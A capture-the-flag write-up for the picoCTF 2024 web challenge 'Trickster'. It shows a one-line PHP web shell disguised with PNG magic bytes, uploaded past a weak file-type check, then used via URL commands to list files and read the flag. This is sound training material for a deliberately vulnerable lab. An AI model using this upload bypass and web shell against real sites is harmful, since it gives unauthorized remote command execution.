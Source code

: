 # Trickster

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: Web Exploitation, picoCTF 2024, browser_webshell_solvable
Author: JUNIAS BONOU

Description:
I found a web app that can help process images: PNG images only!

Try it here!

Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/445](https://play.picoctf.org/practice/challenge/445)

## Solution

### Basic web page analysis

Browse to the web site and you will see a web page with the message "Welcome to my PNG processing app".  
On the web page you can upload PNG files.

On the page, right-click and select 'View page source' (or press `CTRL + U`) to get the HTML-source of the page.
```html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```
Not much there other than that the uploaded file needs to have a `.png` extension.

If we try to upload any PNG picture we get the message:  
`File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully`

We get no indication of where the file is uploaded but normally the destination is in the `/uploads` directory.  
Let's verify this by browsing to `http://atlas.picoctf.net:53321/uploads/test_file.png`.  
Correct! Our test file is displayed.

### Upload a web shell

Next, we will try to upload a [web shell](https://en.wikipedia.org/wiki/Web_shell) disguised as a PNG-file
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ cat web_shell.png.php        
�PNG<?php system($_GET["cmd"]); ?>

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ xxd web_shell.png.php                                                                              
00000000: 8950 4e47 3c3f 7068 7020 7379 7374 656d  .PNG<?php system
00000010: 2824 5f47 4554 5b22 636d 6422 5d29 3b20  ($_GET["cmd"]); 
00000020: 3f3e 0a  
```
Note the PNG magic bytes in the beginning (`89 50 4e 47`) of the file.

Then we upload the web shell through the web page.

### Enumeration through the web shell

Now we can run simple commands through the web shell:

Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=id` returns:
```
�PNGuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The web server's home directory is usually at `/var/www/html`. Let's check that directory.  
Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=ls` returns (with view source):
```
�PNGtotal 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       31 Jul 13 08:50 uploads
```
The `GNTDOMBWGIZDE.txt` file looks very suspicious.

### Get the flag

Viewing the file by accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt` returns the flag:
```
�PNG/* picoCTF{<REDACTED>} */
```

For additional information, please see the references below.

## References

- [Wikipedia - PHP](https://en.wikipedia.org/wiki/PHP)
- [Wikipedia - PNG](https://en.wikipedia.org/wiki/PNG)
- [Wikipedia - Web shell](https://en.wikipedia.org/wiki/Web_shell)
